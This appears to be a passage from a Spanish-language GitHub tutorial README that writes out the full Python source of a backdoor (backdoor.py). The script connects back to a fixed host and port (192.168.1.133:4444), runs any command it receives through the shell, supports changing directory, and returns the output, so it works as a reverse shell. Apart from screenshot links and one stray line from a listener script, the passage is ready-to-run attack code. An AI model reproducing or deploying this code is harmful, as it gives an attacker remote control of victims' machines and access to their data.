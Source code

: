 ```bash
escuchar.run()
```

![comando salir  ubuntu ](https://user-images.githubusercontent.com/97669969/157432117-104c5bf4-55c1-4d62-8f15-f6db00b02ebc.png)


# MEJORA DE CODIGO AGREGANDO COMANDO "cd"

* backdoor.py

```bash
import socket
import subprocess
import json
import os

class Backdoor:

    def __init__(self,ip,port):
        self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.connection.connect((ip,port))
        self.connection.send("\n [+] Conexion establecida \n".encode())
    
    def envio_seguro(self, datos):
        json_data = json.dumps(datos)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        
        while True:
            try:
             
               json_data = self.connection.recv(1024).decode("utf-8")
               return json.loads(json_data)
            except ValueError:
                continue
    
    def ejecutar_comando(self,comando):
        return subprocess.check_output(comando,shell=True)

    def cambiar_directorio(self,ruta):
        os.chdir(ruta)
        return "[+] Cambiando de directorio a {}".format(ruta).encode()

    def run(self):
        while True:

            comando = self.reception_segura()

            if comando[0] == "salir":
                self.connection.close()
                exit()
            elif comando[0] == "cd" and len(comando) > 1:
                resultado_comando = self.cambiar_directorio(comando[1])
            else:
                resultado_comando = self.ejecutar_comando(comando)
                
            self.envio_seguro(resultado_comando.decode("utf-8"))
       

backdoor = Backdoor("192.168.1.133",4444)
backdoor.run()
```